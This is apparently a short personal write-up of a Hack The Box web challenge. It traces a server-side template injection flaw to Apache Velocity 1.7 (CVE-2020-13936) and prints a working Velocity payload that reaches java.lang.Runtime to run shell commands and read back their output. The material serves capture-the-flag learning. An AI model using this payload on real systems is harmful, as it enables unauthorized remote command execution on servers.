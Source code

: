
2024-12-21 00:09

Source: #htb #web 

in the challenge description we find a `pom.xml`, This is an XML file containing a list of dependencies, plugins, etc. that the server uses.

I find out that the last dependency on this list — Apache Velocity Engine 1.7 — is affected by [CVE-2020–13936](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13936). This makes the web application vulnerable to **server side template injection** [[Server-side template injection (SSTI)]].

Since we are dealing with an Apache web server. By default, you can view web configurations in the `/etc/apache2/sites-enabled/000-default.conf`

Now, we need to include a payload in the text that will give us our flag. We’ll read up a bit on Velocity 1.7 first — here is the official documentation — [https://velocity.apache.org/engine/1.7/user-guide.html](https://velocity.apache.org/engine/1.7/user-guide.html).

Now, I’ll include a payload which I found [here](https://gosecure.github.io/template-injection-workshop/#6).

```js
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('ls'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```
url encode the payload 


### References
https://medium.com/@rahulhoysala07/hack-the-box-web-challenge-labyrinth-linguist-a67d5005abe0